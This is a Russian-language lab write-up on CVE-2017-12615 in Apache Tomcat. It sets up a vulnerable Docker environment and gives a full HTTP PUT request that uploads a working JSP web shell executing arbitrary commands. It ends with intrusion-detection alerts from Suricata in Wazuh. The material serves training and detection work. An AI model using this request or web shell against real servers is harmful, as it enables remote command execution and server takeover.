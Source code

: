 # CVE-2017-12615

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12615](https://nvd.nist.gov/vuln/detail/CVE-2017-12615)
* [https://www.opencve.io/cve/CVE-2017-12615](https://www.opencve.io/cve/CVE-2017-12615)

Apache Tomcat — это комплект серверных программ от Apache Software Foundation, предназначенный для тестирования, отладки и исполнения веб-приложений на основе Java.

При запуске Apache Tomcat версий 7.0.0–7.0.79 в Windows с включенным методом HTTP PUT  можно загрузить файл JSP на сервер с помощью специально созданного запроса. При запросе этого файла будет выполняться код, содержащийся в нем.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose build 
docker compose up -d
```

После запуска под адресу http://ваш-ip:8080/ будет доступна стандартная страница Apache Tomcat

<figure><img src="../../.gitbook/assets/cve-2021-40438(1).png" alt=""><figcaption></figcaption></figure>

Отправьте следующий запрос:

```
PUT /1.jsp/ HTTP/1.1
Host: ваш-ip:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 898


<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
```

В данном запросе полезной нагрузкой является код, реализующий CMD Injection

<figure><img src="../../.gitbook/assets/cve-2017-12615(1).png" alt=""><figcaption></figcaption></figure>

Теперь, обращаясь к созданному файлу 1.jsp мы можем выполнять произвольные команды на хосте:

<figure><img src="../../.gitbook/assets/cve-2017-12615(2).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2017-12615(3).png" alt=""><figcaption></figcaption></figure>
